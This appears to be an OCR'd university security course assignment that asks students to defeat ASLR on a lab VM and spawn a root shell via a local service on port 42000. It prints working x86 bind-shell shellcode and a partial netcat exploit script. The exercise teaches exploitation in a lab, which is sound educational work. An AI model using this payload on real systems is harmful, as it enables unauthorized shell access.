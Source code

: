 #####Question 5 The Last Bastion (50 points)

To protect the Calnet source from advanced hackers, Prof. Evil's minions persuaded him
that he must enable address layout randomization (ASLR) as a final layer of defense for
the VM. They assured him that it was inconceivable that anyone even of super-
human intelligence would possess the uber-h4x0r skillz required to overcome this.

Yo, Birkland! Your mission, should you choose to accept it, is to bypass the ASLR
protection and spawn a shell with root privileges. Full control of the box : : : and thus
Calnet itself awaits you! Neo didn't dare hope you might hack your way this far and this
deeply : : : but he could never abandon his dream of freedom, and to that end provided
an exceedingly cryptic clue in his final message that after a caffeine-fueled all-nighter
you eventually realize suggests you should consider reading Section 8 of \ASLR Smack
& Laugh Reference" by Tilo Muller. He also told you that you could get the password
to jones directly from /home/jz, but as soon as you logged in as jones, ASLR would
be launched.

One detail Neo could figure out for you is that the service to exploit listens locally on
TCP port 42000 (try netstat -tulpn | grep 42000). It turns out that the operating
system watches the service and restarts it shortly when it crashes. You have to send the
malicious shellcode to that service to successfully complete this task. Looking through
Neo's past messages, you find guidance to develop this in the form of a TCP \bind shell"
listening on 127.0.0.1:6666.

# Linux (x86) TCP shell binding to port 6666.<br>
bind_shell =<br>
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd" +<br>
"\x80\x5b\x5e\x52\x68\x02\x00\x1a\x0a\x6a\x10\x51\x50\x89" +<br>
"\xe1\x6a\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd" +<br>
"\x80\x43\xb0\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49" +<br>
"\x79\xf8\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3" +<br>
"\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

This should finally suffice to pull off the Final Stage! Somehow you must code up the
program egg so that Neo's exploit script can launch the final, fatal strike:

#!/bin/sh<br>
echo "sending exploit"<br>
./egg | nc 127.0.0.1 42000 &<br>
sleep 1<br>
nc ...

Alas, the battery in Neo's ultra-thin BlueTooth keyboard died just as he was finnishing
typing here. To successfully employ the script, you'll need to replace \..." with the
required arguments to access the root shell.

The freedom of cybercitizens throughout Caltopia rests in your hands ...

#####Submission and Grading.

For this question question, you will submit a complete
shell script exploit that carries out the attack and spawns a shell with root privileges.
You will also submit a script egg, written in your favorite scripting language, that prints
the exploit buffer to standard output and pipes it to netcat. Make sure your scripts
work by invoking ./exploit. Our grading tool will log into a clean VM image as user
jones and put your submission into the directory /home/jones. A script will then
invoke exploit and check for the existence of a shell prompt with effective privileges of
user root (30 points).
